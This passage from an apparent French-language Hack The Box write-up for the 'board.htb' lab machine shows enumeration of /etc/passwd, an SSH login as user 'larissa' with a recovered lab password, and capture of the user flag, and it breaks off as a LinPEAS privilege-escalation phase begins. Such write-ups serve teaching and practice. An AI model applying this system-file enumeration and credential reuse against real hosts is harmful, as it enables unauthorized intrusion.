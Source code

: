 ```bash
cat /etc/passwd | grep -E '/home|/bin/bash'
```

L'utilisateur `larissa` est identifié avec un shell bash actif.

### Connexion SSH

Tentative de connexion SSH avec le mot de passe découvert :

```bash
ssh larissa@board.htb
```

**Mot de passe :** `serverfun2$2023!!`

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold text-lg">
        <i class="fas fa-check-circle mr-2 text-green-500"></i>
        Connexion SSH réussie !
    </p>
</div>

### Validation de l'accès

```bash
id
whoami
```

<div class="bg-gray-100 dark:bg-gray-800 p-4 rounded-lg my-4 font-mono text-sm">
    <div class="text-gray-700 dark:text-gray-300">
        uid=1000(larissa) gid=1000(larissa) groups=1000(larissa),4(adm)
    </div>
</div>

### Récupération du user flag

```bash
cat ~/user.txt
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200">
        <i class="fas fa-flag mr-2 text-green-500"></i>
        <strong>User flag obtenu !</strong> Première étape complétée.
    </p>
</div>

## 🔍 Phase 7 — Énumération locale avec LinPEAS

### Déploiement de LinPEAS

LinPEAS (Linux Privilege Escalation Awesome Script) est un outil d'énumération automatisé qui identifie les vecteurs d'escalade de privilèges.
